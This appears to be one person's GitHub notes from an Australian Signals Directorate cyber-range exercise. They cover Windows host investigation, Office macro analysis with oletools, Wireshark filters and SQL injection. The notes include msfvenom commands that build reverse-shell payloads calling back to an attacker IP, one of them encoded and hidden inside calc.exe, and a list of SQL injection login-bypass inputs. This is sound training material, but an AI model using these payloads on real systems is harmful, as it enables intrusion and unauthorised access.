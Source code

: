 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>

<summary><strong>🌐 LFE 1 Bangalore - Host-Based Threat Investigation</strong></summary>

### 🔎 Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

### 📊 Step 6: View Process Launch Events (Event ID 4688)
```powershell
# Open Event Viewer and filter:
# - Log: Security
# - Event ID: 4688
# - Time Range: Last hour or relevant window
```
> Then double-click an event and go to the **Details > Friendly View** tab. Look for:

- **New Process Name** → The process that was launched  
- **Creator Process Name** → The parent process that launched it  
- **Process Command Line** → (if enabled via Group Policy)  

🧠 For example:
```
New Process Name:     C:\Windows\System32\powershell.exe
Creator Process Name: C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE
```

> Enable command line logging via Group Policy:  
> `Computer Configuration > Administrative Templates > System > Audit Process Creation > Include command line in process creation events`

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🔎 Scenario: Multi-Stage Malware with Data Exfiltration

- Analyse a malicious Office macro embedded in a phishing document
- Trace execution of an obfuscated VB script delivering a reverse shell payload
- Investigate payload generated using `msfvenom` to understand its capabilities
- Identify encrypted files and inspect use of OpenSSL for local encryption
- Monitor network activity and identify exfiltration using Wireshark
- Discover and exploit an SQL injection vulnerability for unauthorised data access

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Recursive Scans:
```powershell
# Recursively analyse all documents in a folder
olevba -r C:\Path\To\Folder\*

# Optional flags:
olevba -r --decode C:\Path\To\Folder\*
olevba -r --json C:\Path\To\Folder\*
```

#### 🔁 mraptor (manual recursion):
```powershell
Get-ChildItem -Recurse -Filter *.doc* | ForEach-Object { mraptor $_.FullName }
```

#### 📄 Other Tools:
```powershell
olemeta suspicious.doc
olemeta --json suspicious.doc

oleid suspicious.doc
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc
rtfobj -d output suspicious.rtf
```

#### 🔍 Other Tool Explanations:
- `olemeta`: Extracts file metadata (author, creation date, etc.)
- `oleid`: Flags suspicious indicators (e.g. presence of macros or OLE objects)
- `oleobj`: Extracts embedded objects (e.g. a hidden .exe inside a Word file)
- `rtfobj`: Same as `oleobj`, but for RTF documents

### 💣 Payload Crafting with `msfvenom`
```powershell
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type
- `LHOST`: Attacker IP
- `LPORT`: Listener port
- `-f`: Output format (e.g. exe, elf, psh)
- `-o`: Output file
- `-e`: Encoder
- `-i`: Iterations
- `-x`: Inject into another executable

#### 🧰 Examples:
```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```powershell
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📡 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics

**SQL injection** was found in a web-based login form hosted on the compromised environment.

#### Sample Inputs:
```text
Username: ' OR 1=1;--
Password: anything

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything

Username: ' OR 1=1 LIMIT 1;--
Password: doesn't matter

Username: admin')--
Password: test

Username: ' UNION SELECT null, version();--
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```

</details>

---
